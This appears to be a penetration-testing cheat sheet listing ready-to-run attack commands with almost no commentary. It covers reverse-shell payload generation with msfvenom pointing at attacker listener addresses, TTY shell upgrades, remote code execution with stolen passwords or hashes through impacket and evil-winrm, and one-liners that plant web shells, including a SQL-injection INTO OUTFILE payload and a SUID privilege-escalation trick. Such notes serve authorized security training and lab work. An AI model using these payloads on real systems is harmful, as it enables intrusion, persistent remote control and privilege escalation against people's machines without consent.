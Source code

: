   ```
  - `python ps_encoder.py -s powershell_reverse_shell.ps1`
  - `python ps_encoder.py -s powershell_reverse_shell_2.ps1`


**Upgrade shell**
1. `python -c 'import pty;pty.spawn("/bin/bash")'`
   - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
   - `perl -e 'exec "/bin/bash";'`
   - `/usr/bin/script -qc /bin/bash /dev/null`
2. `CTRL^Z`
3. `stty raw -echo;fg`
4. `reset`
5. `xterm-256color`
If something goes wrong
- `export TERM=xterm-256color`
- `stty rows 56 columns 213`
- `export PATH="/bin:/sbin:/usr/bin:/usr/sbin:$PATH"`
- `export SHELL=/bin/bash`


**msfvenom shells**
- `msfvenom -p linux/x64/exec -f elf-so PrependSetuid=true | base64`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8444 EXITFUNC=thread -f exe -o shell.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.215 LPORT=445 -f exe -e 64/xor -o shell.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.163 LPORT=445 -f exe -o shell.exe`
- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.163 LPORT=445 -f exe -o shell.exe`
- `msfvenom -f psh-cmd -p windows/shell_reverse_tc LHOST=tun0 LPORT=8443 -o rev.ps1`
- `msfvenom -f ps1 -p windows/shell_reverse_tcp LHOST=tun0 LPORT=8443 -o rev.ps1`
- `msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f msi > shell.msi`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8444 -f aspx > devel.aspx`
  - run with: `msiexec /quiet /qn /i shell.msi`
- `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.231 LPORT=4242 -f elf > reverse.elf`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.30 LPORT=4445 -f war > shell.war`
  - for file uploads in tomcat/manager
  - `setoolkit > 1 > 9 > 1`
- Resources
  - https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
  - https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/

**Access shell**
- `impacket-wmiexec domain.local/username@IP`
- `impacket-wmiexec domain.local/username@IP -hashes :HASH`
- `evil-winrm -u 'username' -p '*******' -i IP -N`
- `evil-winrm -i IP -u username -p password`
- `evil-winrm -u username -H ':HASH' -i IP -N`
- `crackmapexec smb IP -u username -p "password"`
- `impacket-psexec username:password@IP`
  - `msf> use exploit/windows/smb/psexec`
  - https://0xdf.gitlab.io/2020/01/26/digging-into-psexec-with-htb-nest.html

**Save files**
- `echo "<?php system('chmod +x /usr/bin/find; chmod +s /usr/bin/find');?>" >index.php`
- `' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'`
- `curl -T my-shell.php -u 'administrant:sleepless' http://muddy.ugc/webdav/`
